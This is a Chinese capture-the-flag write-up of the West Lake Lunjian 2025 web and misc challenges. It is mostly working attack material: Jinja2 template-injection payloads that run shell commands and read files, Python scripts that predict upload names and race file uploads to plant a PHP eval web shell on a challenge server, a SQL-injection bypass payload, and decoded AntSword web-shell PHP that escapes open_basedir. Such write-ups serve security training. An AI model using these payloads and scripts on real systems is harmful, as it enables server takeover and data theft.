







# 西湖论剑2025 Web&Misc解析-先知社区

> **来源**: https://xz.aliyun.com/news/16603  
> **文章ID**: 16603

---

## web1

命令执行绕过

```
{{lipsum|attr('__globals__')|attr('__getitem__')('os')|attr('popen')("cd+..%26%26cd+..%26%26cd+..%26%26ls")|attr('read')()}}
```



读文件

```
{{x.__init__.__globals__['__builtins__'].open('\x2f\x66\x6c\x61\x67\x66\x31\x34\x39', 'r').read()}}
```

## web2

爆破弱密码 admin/year2000

可以上传php但是访问不到，说明被删除了  


我们考虑后端是时间戳的md5来预测

```
import requests

import time

import hashlib

import re

  
session = requests.session()

  
burp0_url = "http://139.155.126.78:19736/admin/index.php"

burp0_cookies = {"PHPSESSID": "eocs29jrgktq1p05r0r010kqg8"}

burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "multipart/form-data; boundary=---------------------------254205075435063787121611159071", "Origin": "http://139.155.126.78:19736", "Connection": "close", "Referer": "http://139.155.126.78:19736/admin/index.php", "Upgrade-Insecure-Requests": "1", "Priority": "u=0, i"}

burp0_data = "-----------------------------254205075435063787121611159071\r
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"\r
Content-Type: image/jpeg\r
\r
<?=`ls`?>\r
-----------------------------254205075435063787121611159071--\r
"

start=int(time.time())

print(start)

res=session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

tmpmd5=re.findall(r"/Uploads/(.*)/(.*).jpg",res.text)[0][1]

print(tmpmd5)

end=int(time.time())

print(end)

  
for i in range(start-3000,end+3000):
    md5_hash = hashlib.md5(str(i).encode()).hexdigest()
    if md5_hash==tmpmd5:
        print(i)

#./Uploads/1f14bba00da3b75118bc8dbf8625f7d0/22d92f1c02ba303969f7203e3f43875a.jpg
```

我们写一个多线程脚本进行文件上传同时获取文件名字再访问，条件竞争绕过：

```
import requests

import re

import threading

  
session = requests.session()

url = "http://139.155.126.78:19736/admin/Uploads/1f14bba00da3b75118bc8dbf8625f7d0/"

burp0_url = "http://139.155.126.78:19736/admin/index.php"

burp0_cookies = {"PHPSESSID": "eocs29jrgktq1p05r0r010kqg8"}

burp0_headers = {

    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0",

    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",

    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",

    "Accept-Encoding": "gzip, deflate, br",

    "Content-Type": "multipart/form-data; boundary=---------------------------254205075435063787121611159071",

    "Origin": "http://139.155.126.78:19736",

    "Connection": "close",

    "Referer": "http://139.155.126.78:19736/admin/index.php",

    "Upgrade-Insecure-Requests": "1",

    "Priority": "u=0, i"

}

burp0_data = "-----------------------------254205075435063787121611159071\r
Content-Disposition: form-data; name="file_upload"; filename="1.php"\r
Content-Type: image/jpeg\r
\r
<?php file_put_contents('/var/www/html/admin/Uploads/1f14bba00da3b75118bc8dbf8625f7d0/shell.php','<?php eval($_POST[1]);');echo 321321;?>\r
-----------------------------254205075435063787121611159071--\r
"

filename = ''

def getfile():

    global filename

    while True:

        res = session.get(url=url + filename, cookies=burp0_cookies)

        if "321321" in res.text:

            print("ok")

            with open("C:\Users\86150\Desktop\2.php", "w") as f:

                f.write(res.text)

            return 0

  
def uploadfile():

    global filename

    while True:

        res = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

        filename = re.findall(r"/Uploads/1f14bba00da3b75118bc8dbf8625f7d0/(.*)<", res.text)[0]

  
threads = []

for _ in range(50):

    thread = threading.Thread(target=uploadfile)

    thread2 = threading.Thread(target=getfile)

    thread.start()

    thread2.start()

    threads.append(thread2)

    threads.append(thread)

  
# 等待所有线程完成

for thread in threads:

    thread.join()
```

竞争写马到

```
admin/Uploads/1f14bba00da3b75118bc8dbf8625f7d0/1.php
```

但是我们发现有disable\_function过滤，直接上蚁剑插件绕过





## web3

题目源码：

```
var express = require('express');

var router = express.Router();

module.exports = router;

  
router.get('/',(req,res,next)=>{

    if(req.query.info){

        if(req.url.match(/\,/ig)){

            res.end('hacker1!');

        }

        var info = JSON.parse(req.query.info);

        if(info.username&&info.password){

            var username = info.username;

            var password = info.password;

            if(info.username.match(/\'|"|\/) || info.password.match(/\'|"|\/)){

                res.end('hacker2!');

            }

            var sql = "select * from userinfo where username = '{username}' and password = '{password}'";

            sql = sql.replace("{username}",username);

            sql = sql.replace("{password}",password);

            connection.query(sql,function (err,rs) {

            if (err) {

                res.end('error1');

            }

            else {

                if(rs.length>0){

                res.sendFile('/flag');

                }else {

                res.end('username or password error');

                }

            }

            })

        }

        else{

            res.end("please input the data");

        }

}

    else{

        res.end("please input the data");

    }

})
```

## ​

利用分开传参即可绕过逗号，SQL注入绕过 利用`String.prototype.replace()`的特性：

​

最终poc如下

```
info={"username":"$`  or 1=1%23"&info="password":"bb"}
```

## Misc

### easydatalog

有命令执行 需要解密



解密为蚁剑流量

```
<?php
@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split(base64_decode("Lzt8Oi8="), $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item . "/.5dd9ceea3";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        $tmdir = realpath($tmdir);
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};;
function asenc($out)
{
    return @base64_encode($out);
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "8c" . "ba5";
    echo @asenc($output);
    echo "1dddec" . "f35c19";
}
ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    $R = "{$D}  ";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) if (is_dir("{$L}:")) $R .= "{$L}:";
    } else {
        $R .= "/";
    }
    $R .= " ";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= " {$s}";
    echo $R;;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
```



password.jpg，不知道密码

傅里叶频域变换图



### 

​
